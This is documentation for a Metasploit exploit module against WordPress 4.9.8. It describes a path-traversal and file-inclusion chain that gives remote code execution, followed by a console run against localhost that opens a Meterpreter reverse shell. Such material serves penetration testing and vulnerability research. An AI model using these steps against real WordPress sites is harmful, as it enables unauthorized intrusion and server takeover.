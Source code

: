 On WordPress versions 5.0.0 and <= 4.9.8 it is possible to gain arbitrary code execution via a core vulnerability combining a Path Traversal and a Local File Inclusion.
An attacker who gains access to an account with at least author privileges on the target can execute PHP code on the remote server.

## Exploitation Steps

1. Upload an image containing PHP code
2. Edit the `_wp_attached_file` entry from `meta_input` $_POST array to specify an arbitrary path
3. Perform the Path Traversal by using the `crop-image` Wordpress function
4. Perform the Local File Inclusion by creating a new WordPress post and set `_wp_page_template` value to the cropped image. The post will `include()` our image containing PHP code.

When visiting the post created by the attacker it is possible to obtain code execudion.

More details can be found on [RIPS Technology Blog](https://blog.ripstech.com/2019/wordpress-image-remote-code-execution/).

## Verification Steps

Confirm that functionality works:
1. Start `msfconsole`
2. `use exploit/multi/http/wp_crop_rce`
3. Set the `RHOST`
4. Set `USERNAME` and `PASSWORD`
4. Set `LHOST` and `LPORT`
5. Run the exploit: `run`
6. Confirm you have now a meterpreter session

## Options

### THEME_DIR

The name of the theme Wordpress is using. Used if
the theme cannot be auto-detected.

## Scenarios

### Ubuntu 18.04 running WordPress 4.9.8

```
msf5 > use exploit/multi/http/wp_crop_rce
msf5 exploit(multi/http/wp_crop_rce) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf5 exploit(multi/http/wp_crop_rce) > set username author
username => author
msf5 exploit(multi/http/wp_crop_rce) > set password author
password => author
msf5 exploit(multi/http/wp_crop_rce) > run

[*] Started reverse TCP handler on 127.0.0.1:4444 
[*] Authenticating with WordPress using author:author...
[+] Authenticated with WordPress
[*] Preparing payload...
[*] Checking crop library
[*] Uploading payload
[+] Image uploaded
[*] Uploading payload
[+] Image uploaded
[*] Including into theme
[*] Sending stage (38247 bytes) to 127.0.0.1
[*] Meterpreter session 1 opened (127.0.0.1:4444 -> 127.0.0.1:36568) at 2019-03-19 11:33:27 -0400

meterpreter > sysinfo
Computer    : ubuntu
OS          : Linux ubuntu 4.15.0-46-generic #49-Ubuntu SMP Wed Feb 6 09:33:07 UTC 2019 x86_64
Meterpreter : php/linux
```
